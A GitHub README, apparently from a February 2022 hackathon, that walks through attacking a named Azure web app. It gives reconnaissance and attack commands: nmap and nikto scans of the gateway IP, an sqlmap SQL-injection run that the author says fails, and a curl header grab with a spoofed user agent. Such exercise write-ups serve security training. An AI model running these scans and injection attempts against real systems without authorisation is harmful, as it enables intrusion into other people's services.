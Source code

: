 # WebSite Attack by AndreMurrel
Web site attack created by Andre Murrel for FTA hackaton Februare 2022

This is instructions on how to execute a website attack. It was created by Andre Murrel for a hackaton played by Rudnei, Andre, Simona, Ricardo, Andrej and Andrew.

## Information utilized

- Web app: https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
- App GW: 52.249.241.69

## Enumeration and Discovery
```
    Nmap -v -O -Pn 52.249.241.69 --traceroute 
    #silent scan of IP and 1000 ports if ICMP is blocked 
```
```
    nikto -h 52.249.241.69 
    //nikto -h https://owaspdirect-prunoavl6xr2y.azurewebsites.net 
    //nikto -h https://owaspdirecprunoavl6xr2y.azurewebsites.net –ssl
```
## ATTACK Attempt at SQL Injection (this throws the kitchen sink at the Website) 
```
    sqlmap -u "https://owaspdirect-prunoavl6xr2y.azurewebsites.net" --data="id=1&str=val" -b 
```
![image](https://user-images.githubusercontent.com/97529152/161347761-6c4a72d3-8c94-4d97-8c78-761c182a9f74.png)

**NOTE:**  
This will NOT be successful but will send a lot of SQL injection and XSS traffic to the WebApp. This will identity that there are NO DBs behind the WebApp.

- Grab header and spoof useragent 
```
curl -I -X HEAD -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" http://52.249.241.69
```
![image](https://user-images.githubusercontent.com/97529152/161603718-54a5655e-7c8a-476e-ad2f-bc2f111e5ae8.png)

